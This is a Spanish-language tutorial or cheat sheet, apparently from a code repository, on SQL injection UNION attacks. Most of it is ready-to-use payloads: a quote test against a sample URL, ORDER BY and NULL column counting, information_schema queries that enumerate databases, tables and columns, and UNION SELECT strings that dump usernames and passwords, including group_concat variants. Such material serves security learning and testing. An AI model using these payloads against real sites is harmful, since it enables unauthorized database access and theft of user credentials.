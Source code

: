 Un **SQL Injection UNION Attack** ocurre cuando un atacante **inyecta una consulta maliciosa con la cláusula `UNION`** para recuperar datos adicionales de la base de datos.

*Union select*, utilizado para concatenar dos select en una misma query pero este tipo de query se usa sabiendo las columnas y debemos averiguarlo usando order by. Este tipo de ataque solo sirve en caso de que ya se este usando un select y en caso de poder ver la salida o como mínimo errores.

## Concepto de UNION en SQL
El operador `UNION` en SQL se usa para combinar los resultados de dos consultas:
```sql
SELECT columna1, columna2 FROM tabla1 UNION SELECT columna1, columna2 FROM tabla2;
```

**Reglas clave para que `UNION` funcione:**  
✅ Mismo número de columnas en ambas consultas.
✅ Tipos de datos compatibles entre columnas.

## ¿Cómo detectar si un sitio es vulnerable?
1️⃣ **Comprobar si la consulta es vulnerable**  
Prueba ingresando un **'** en un campo de entrada (por ejemplo, en la URL):
```
https://target.com/profile.php?id=1'
```

📌 **Si devuelve error**, puede indicar una posible vulnerabilidad SQLi.

2️⃣ **Determinar el número de columnas**  
Prueba diferentes números en `ORDER BY`:

```
https://target.com/profile.php?id=1 ORDER BY 1 --  
https://target.com/profile.php?id=1 ORDER BY 2 --  
https://target.com/profile.php?id=1 ORDER BY 3 --  
```

📌 **Cuando recibas error, significa que el número de columnas es mayor que el valor probado.**

También puedes usar:

```sql
1 UNION SELECT NULL --  
1 UNION SELECT NULL, NULL --  
1 UNION SELECT NULL, NULL, NULL --  
```

📌 **El número correcto de NULLs indica cuántas columnas tiene la consulta.**

3️⃣ **Extraer datos sensibles**  
Si confirmas que hay SQL Injection, puedes intentar recuperar información sensible:

```sql
1 UNION SELECT username, password FROM users;
```

Si no sabes los nombres de las tablas, prueba con bases de datos estándar:

```sql
1 UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database();
```

Para obtener columnas de una tabla específica:

```sql
1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users';
```

📌 **¿Por qué usamos `NULL`?**

- `NULL` es un valor especial que funciona con cualquier tipo de datos.
    
- No sabemos si las columnas son `int`, `varchar`, `date`, etc., así que usamos `NULL` para evitar errores de tipo.
    
- Si la consulta devuelve resultados, significa que **hemos encontrado el número correcto de columnas**.

### MySQL

`schema_name` → Columna que contiene el nombre de cada base de datos.  
`information_schema.schemata` → Tabla interna que lista todos los schemas o bases de datos.
**Una vez conocido el numero de columnas existentes**
```sql
-- Antes de cada union va un '

-- Para listar todas las DBs existentes
union select schema_name,NULL from information_schema.schemata --


-- Listar todas las tablas de todas las 
union select table_name,NULL from information_schema.tables --

-- Listar una tabla de una DB
union select table_name,NULL from information_schema.tables where table_schema='public' --

-- Listar columnas
union select column_name,NULL from information_schema.columns where table_schema='public' and table_name='users' --

-- Listar contenido
union select usernames,password from users -- -
	-- En caso que la tabla este en una db que no es la    actual (en DB va el nombre)
	union select usernames,password from DB.users -- -
	
	-- En caso que solo te deje usar alguna columna
union select NULL,group_concat(username,':',password) from users -- -
	-- Otra forma de concatenar
union select NULL,group_concat(username||':'||password) from users
```

